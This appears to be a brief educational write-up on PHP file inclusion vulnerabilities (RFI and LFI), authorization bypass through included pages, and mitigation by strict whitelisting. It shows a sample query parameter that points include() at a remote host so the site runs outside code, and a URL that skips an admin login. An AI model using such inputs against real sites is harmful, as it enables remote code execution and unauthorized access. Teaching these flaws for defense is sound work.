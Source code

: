 # File Inclusion

Suppose you have the following website, `http://example.com/index.php?page=home`. Changing the query to `?page=test` gives you the following error embedded in the page:

```txt
Warning: include(test.php): failed to open stream: No such file or directory in - on line 26
```

This seems to be calling the `include()` function on the page you reference + `.php`.

Suppose you change it to `?page=http://demoseen.com/test`. Suddenly it's making a web request to it, and any code that's contained in that file is going to be executed by the site in question.

## How it works

Any time you're inclding code on the fly based on user input without _very_ strict whitelisting, you're likely to run into _File inclusion_ bugs.

In many cases, PHP (and other languages/frameworks) will be configured to not allow web requests from an `include()` and the like. When they're possible, you have __Remote File Inclusion (RFI)__, when they're not, you're looking at __Local File Inclusion (LFI)__.

## Authorization Bypass

Often, applications are written such that authorization checks happen in a different file than the actual logic.

So in our scenario, going to `?page=admin` might give you a login prompt for an admin area, but `?page=admin_users` might give you direct access to the user management component for instance.

## Mitigation

Safest way to handle this is not to have user input driven into `include()` and the like whatsoever. Otherwise, _whitelisting_ as strict as possible is essential.

In the case that neither of these is viable, then _removing directory separators_ may be the only route. This is not recommended, but will prevent URLs and directory traversal.
